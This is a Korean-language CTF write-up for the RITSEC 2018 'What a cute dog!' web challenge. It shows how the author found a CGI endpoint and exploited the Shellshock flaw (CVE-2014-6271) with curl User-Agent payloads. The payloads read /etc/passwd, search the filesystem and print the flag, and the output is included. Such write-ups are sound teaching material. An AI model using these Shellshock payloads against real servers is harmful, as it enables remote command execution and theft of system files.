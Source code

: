 ```yaml
---
layout: post
title: ! "[RITSEC 2018] What a cute dog! Write up"
excerpt_separator: <!--more-->
comments : true
categories : [CTF/2018]
tags:
  - Write-up
  - CTF
  - RITSEC2018
---
```


주말에 잠깐 짬이 나서 RITSEC CTF에 참여했다.  

웹 몇개랑 암호 한개 정도 풀었는데 그 중에 한 문제에 대한 Write Up을 써 두려고 한다.  

<!--more-->

문제 정보는 다음과 같다.  

```
This dog is shockingly cute!

fun.ritsec.club:8008

Author: sandw1ch
```

문제에 접속하면 아래와 같은 화면이 보인다.  

![](/images/CTF/RITSEC2018/whatacutedog/whatacutedog_01.png)

아무것도 없어 보이는데, `페이지 소스보기`를 하면 `iframe`으로 `/cgi-bin/stats`를 호출하는 것을 알 수 있다.  

```html

<html>

	<head>

    <style>
    body {
        background-image: url("https://wallpaper-house.com/data/out/6/wallpaper2you_129872.jpg");
    }
    </style>

	<meta name="generator" content="vi2html">
	</head>
	<body>
	</br>
</br>
Has Anyone Really Been Far Even as Decided to Use Even Go Want to do Look More Like?</br>
</br>
Wow, this dog is shockingly cute!</br>
	</br>
Stats:
	</br>
	<iframe frameborder=0 width=800 height=600 src="/cgi-bin/stats"></iframe>
	</body>
</html>
```

해당 경로로 들어가면 아까 봤던 두 줄의 정보만 출력될 뿐, 아무것도 나오는 것이 없다.  

```
Sun Nov 18 14:11:01 UTC 2018
14:11:01 up 1 day, 21:58, 0 users, load average: 0.11, 0.31, 0.29
```

뭘까 잠시 고민하다가, 아무 의미 없는 페이지에 뜬금포로 `/cgi-bin/stats`로 들어 가 어떤 정보를 출력하는게 의심스러워서, 이를 가지고 문제를 푸는 것이 아닌가 생각 해 보았다.  

그래서 구글에 `cgi-bin/stats exploit`라고 검색 해 보았는데 깃허브에서 이와 관련 된 `CVE`를 찾을 수 있었다.  

> [CVE-2014-6271](https://github.com/hmlio/vaas-cve-2014-6271)

해당 취약점을 가지고 있는 `Debian Linux system`에서 `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://your-ip:8080/cgi-bin/stats`와 같은 코드를 사용 해 임의의 코드를 실행할 수 있다.  

이에 위의 코드를 그대로 문제 서버에 적용 해 보았다.  

그랬더니 아래와 같이 `/etc/passwd`가 출력 된 것을 확인할 수 있었다.  

```
# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://fun.ritsec.club:8008/cgi-bin/stats

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```

그래서 이를 가지고 플래그의 위치를 찾기 위해 `find` 명령어를 실행하도록 아래와 같이 테스트 해 보았다.  

```
# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'find / -name "*flag*"'" http://fun.ritsec.club:8008//cgi-bin/stats

/proc/sys/kernel/acpi_video_flags
/proc/sys/kernel/sched_domain/cpu0/domain0/flags
/proc/sys/kernel/sched_domain/cpu1/domain0/flags
/proc/kpageflags
/usr/lib/perl/5.14.2/auto/POSIX/SigAction/flags.al
/usr/lib/perl/5.14.2/bits/waitflags.ph
/opt/flag.txt
/sys/devices/pnp0/00:04/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/virtual/net/eth0/flags
/sys/devices/virtual/net/lo/flags
/sys/module/scsi_mod/parameters/default_dev_flags
```

그랬더니 `/opt/flag.txt`라는 파일을 찾을 수 있었다.  

그래서 이번에는 `/opt/flag.txt`를 읽도록 아래와 같이 실행 해 보았더니 플래그를 찾을 수 있었다.  

```
# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /opt/flag.txt'" http://fun.ritsec.club:8008//cgi-bin/stats

RITSEC{sh3ll_sh0cked_w0wz3rs}
```

```
RITSEC{sh3ll_sh0cked_w0wz3rs}
```
